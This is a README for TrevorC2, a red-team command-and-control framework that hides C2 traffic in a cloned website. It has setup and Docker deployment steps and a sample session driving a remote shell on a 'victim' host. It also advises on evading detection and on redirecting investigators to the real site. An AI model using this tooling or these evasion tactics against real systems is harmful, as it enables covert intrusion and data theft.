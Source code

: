 This is not the official trevorc2 repo. Code here is only retained to show how the obfuscation experiment was set up and compiled


trevorc2
=======

# TrevorC2 - Command and Control via Legitimate Behavior over HTTP

Written by: Dave Kennedy (@HackingDave)
Website: https://www.trustedsec.com

Note that this is a very early release - heavy randomization and encryption to be added soon.

TrevorC2 is a client/server model for masking command and control through a normally browsable website. Detection becomes much harder as time intervals are different and does not use POST requests for data exfil. 


           ,  .'''''.  ...    ''''',  .'           
            ','     ,.MMMM;.;'      '.             
             ;;    ;MMMMMMMMM;     ;;'             
            :'M:  ;MMMMMMMMMMM;.  :M':             
            : M:  MMMMMMMMMMMMM:  :M  .           
           .' M:  MMMMMMMMMMMMM:  :M. ;           
           ; :M'  :MMMMMMMMMMMM'  'M: :           
           : :M: .;"MMMMMMMMM":;. ,M: :           
           :  ::,MMM;.M":::M.;MMM ::' :           
         ,.;    ;MMMMMM;:MMMMMMMM:    :,.         
         MMM.;.,MMMMMMMM;MMMMMMMM;.,;.MMM         
         M':''':MMMMMMMMM;MMMMMMMM: "': M         
         M.:   ;MMMMMMMMMMMMMMMMMM;   : M         
         :::   MMMMMMMMMMM;MMMMMMMM   ::M         
        ,'';   MMMMMMMMMMMM:MMMMMMM   :'".         
      ,'   :   MMMMMMMMMMMM:MMMMMMM   :   '.       
     '     :  'MMMMMMMMMMMMM:MMMMMM   ;     '     
     ,.....;.. MMMMMMMMMMMMM:MMMMMM ..:....;.     
     :MMMMMMMM MMMMMMMMMMMMM:MMMMMM MMMMMMMM:     
     :MM''':"" MMMMMMMMMMMMM:MMMMMM "": "'MM:     
      MM:   :  MMMMMMMMMMMMM:MMMMMM  ,'  :MM       
      'MM   :  :MMMMMMMMMMMM:MMMMM:  :   ;M:       
       :M;  :  'MMMMMMMMMMMMMMMMMM'  :  ;MM       
       :MM. :   :MMMMMMMMMM;MMMMM:   :  MM:       
        :M: :    MMMMMMMMM'MMMMMM'   : :MM'       
        'MM :    "MMMMMMM:;MMMMM"   ,' ;M"         
         'M  :    ""''':;;;'''""    :  M:         
         ;'  :     "MMMMMMMM;."     :  "".         
       ,;    :      :MMMMMMM:;.     :    '.       
      :'     :    ,MM'''""''':M:    :     ';       
     ;'      :    ;M'         MM.   :       ;.     

There are two components to TrevorC2 - the client and the server. The client can be configured to be used with anything. In this example it's coded in Python but can easily be ported to C#, PowerShell, or whatever you want. Currently the trevorc2_client.py supports Windows, MacOS, and Linux. You can always byte compile the Windows one to get an executable, but preference would be to use Windows without having to drop an executable as a stager.

The way that the server works is by tucking away a parameter thats right before the </body> parameter. This is completely configurable, and it's recommended you configure everything to be unique in order to evade detection. Here is the workflow:

    1. trevor2_server.py - edit the file first, and customize, what website you want to clone, etc. The server will clone a website of your choosing and stand up a server. This server is browsable by anyone and looks like a legitimate website. Contained within the source is parameter that (again is configurable), which contains the instructions for the client. Once a client connects, it searches for that parameter, then uses it to execute commands.
    2. trevor2_client.py - all you need in any configurable option is the ability to call out to a website, parse some basic data, and then execute a command and then put the results in a base64 encoded query string parameter to the site. That's it, not hard. 
    3. trevor2_client.ps1 - powershell implementation of trevor2_client.py, this allows you to use native PowerShell to interact with Trevor2_Server.

## Installation

pip install -r requirements.txt

## Usage

First edit the trevor2_server.py - change the configuration options and site to clone.

python trevor2_server.py

Next, edit the trevor2_client.py or ps1 - change the configuration and system you want it to communicate back to. 

python trevor2_client.py or .\trevor2_client.ps1

## Session Management

TrevorC2 supports the ability to handle multiple shells coming from different hostnames. The way TrevorC2 works is it will identify new hostnames as sessions. You can interact with the sessions once you execute a command. If you have multiple sessions, you can type a command and interact with that session based on the session number stored globally. 

When first starting TrevorC2, you can type help or ? for additional information. Basic command usage is "list" which will list any active shells or none at all, or "interact <session_id>" to interact with the shell you want. 

You can always type back/exit within a shell, it will still remain active and not actually kill the shell.

Example below:

```
root@stronghold:/home/relik/Desktop/git/trevorc2# python trevorc2_server.py 

TrevorC2 - Legitimate Website Covert Channel
Written by: David Kennedy (@HackingDave)
https://www.trustedsec.com
[*] Cloning website: https://www.google.com
[*] Site cloned successfully.
[*] Starting Trevor C2 Server...
[*] Next, enter the command you want the victim to execute.
[*] Client uses random intervals, this may take a few.
[*] Type help for usage. Example commands, list, interact.

Trevor C2 shell
trevorc2>help

Documented commands (type help <topic>):
========================================
exit  help  interact  list  servercmd

trevorc2>help list
Description: Lists all available agents
Usage: list

trevorc2>list
No available Agents. :-(

trevorc2>
*** Received connection from 127.0.0.1 and hostname stronghold with communication sid pSNIRFgTuZnCdHN for TrevorC2.

trevorc2>list
id  hostname                ip address        communication_sessionid
1   stronghold              127.0.0.1         pSNIRFgTuZnCdHN

trevorc2>help interact
Description: Starts an interactive shell with agent
Usage: interact <id>

trevorc2>interact 1
[*] Dropping into trevorc2 shell...
[*] Use exit or back to select other shells
stronghold:trevorc2>ifconfig
[*] Waiting for command to be executed, be patient, results will be displayed here...
[*] Received response back from client...
=-=-=-=-=-=-=-=-=-=-=
(HOSTNAME: stronghold
CLIENT: 127.0.0.1)
ens33     Link encap:Ethernet  HWaddr 00:0c:29:63:7c:67  
          inet addr:172.16.37.132  Bcast:172.16.37.255  Mask:255.255.255.0
          inet6 addr: fe80::4b6b:fb52:f109:a7af/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:1400907 errors:0 dropped:0 overruns:0 frame:0
          TX packets:2588882 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:835091244 (835.0 MB)  TX bytes:2623070556 (2.6 GB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:453640 errors:0 dropped:0 overruns:0 frame:0
          TX packets:453640 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:211565776 (211.5 MB)  TX bytes:211565776 (211.5 MB)


stronghold:trevorc2>back

trevorc2>help servercmd
Description: Run command on the server
Usage: servercmd <command>
Example: servercmd ifconfig

trevorc2>servercmd hostname
PwnServer

trevorc2>exit
[*] Exiting TrevorC2... 
```

## Dockerfile
Uses an alpine-based Dockerfile to deploy trevorC2, handy for quick deployment on cloud providers.  
Example below:

```bash
git clone https://github.com/trustedsec/trevorc2.git
cd trevorc2
# At this point, setting up docker-machine to remotly deploy works great
docker build -t trevorc2 . 
docker run -it -p 80:80 -p 443:443 trevorc2
```

## Variables configuration

It is important to change the variables that are presented in each of the scripts. Especially the SITE_PATH_QUERY and encryption key. I would also recommend looking at the REDIRECT option. Instead of cloning a website, you have another option which will redirect the victim host that may be browsing the site to investigate to the legitimate site. Basically when someone visits the site, it'll just redirect them to the site you want cloned. Change the cloned site from google for example to a different site and turn redirect to ON.

## TODO

#### Add ability for longer than 2048 data output. Query string parameter length limited size length.
#### Add do_POST support for POST exfil on longer data.
#### Add upload/download functionality.
